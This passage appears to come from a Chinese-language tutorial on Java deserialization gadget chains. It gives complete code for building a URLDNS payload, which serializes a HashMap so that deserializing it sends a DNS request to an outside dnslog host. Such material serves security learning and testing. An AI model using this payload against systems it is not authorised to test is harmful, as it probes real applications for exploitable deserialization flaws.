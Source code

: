 ![image](https://user-images.githubusercontent.com/84888757/204579048-5b65be4d-64de-4ebd-9f04-286b4b785c82.png)



3、在CC6的链中也有和URLDNS相同的部分，就是通过计算 `hashcode` 触发构造链。


## 自己编写URLDNS相关代码
### 序列化代码
`UrlDnsSer.java`

```
package org.vulhub;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class UrlDnsSer {

    public static void main(String[] args) throws Exception {
        //初始化一个HashMap的时候，hashCode默认为-1
        HashMap map = new HashMap();
        //初始化⼀个 java.net.URL 对象
        URL url = new URL("http://666.mdrzq8.dnslog.cn");
        //获取URL类的hashCode属性
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        // 修改访问权限，必须使用setAccessible方法设置为True才能修改private属性
        f.setAccessible(true);
        // 设置hashCode值为123，这里可以是任何不为-1的数字。先这样设置是因为HashMap的put方法也会调用hash(key)方法，
        // 如果不这样的话，会在序列化的时候调用put方法然后调用hash(key)，然后直接进行了dnslog。
        f.set(url,123);
        System.out.println(url.hashCode());
        
        //往HashMap中添加Key为URL对象,hashCode会变成一个对URL对象进行计算过的值
        //导致直接进行了DNS请求
        //如果序列化之前不重新设置hashCode值为-1，则反序列化无法成功触发
        map.put(url,"123");
        
        // 通过反射，改变已有对象的属性
        // 将url的hashCode重新设置为-1。确保在反序列化时能够成功触发
        f.set(url,-1);

        try{
            // 序列化对象
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
            outputStream.writeObject(map);
            outputStream.close();
            fileOutputStream.close();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
